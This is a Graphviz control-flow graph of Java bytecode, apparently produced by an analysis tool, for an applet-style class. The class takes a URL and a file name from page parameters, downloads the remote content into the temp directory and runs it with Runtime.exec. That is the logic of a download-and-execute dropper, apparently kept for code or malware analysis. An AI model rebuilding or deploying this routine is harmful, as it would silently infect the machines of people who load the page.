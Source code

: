 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "push \"FileName\""
    "load.r r0"->"push \"FileName\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"FileName\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "push \"java.io.tmpdir\""
    "store.r r1"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r2"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "push \"Redirect\""
    "load.r r0"->"push \"Redirect\"";
    "push \"Redirect\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "pop"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"pop";
    "new java.io.FileOutputStream"
    "pop"->"new java.io.FileOutputStream";
    "store.r $r9"
    "new java.io.FileOutputStream"->"store.r $r9";
    "load.r $r9"
    "store.r $r9"->"load.r $r9";
    "new java.lang.StringBuilder"
    "load.r $r9"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r2"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"URL\""
    "load.r r0"->"push \"URL\"";
    "push \"URL\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r0"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r0";
    "push 1024"
    "store.r r0"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r7"
    "newarray"->"store.r r7";
    "store.r r7"->"load.r r0";
    "load.r r7"
    "load.r r0"->"load.r r7";
    "push 0"
    "load.r r7"->"push 0";
    "push 0"->"load.r r7";
    "arraylength"
    "load.r r7"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r0"
    "push -1"->"ifcmpeq.i load.r r0";
    "ifcmpeq.i load.r r0"->"load.r $r9";
    "load.r $r9"->"load.r r7";
    "load.r r7"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r0";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r9";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r9"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "goto return"->"return";
}
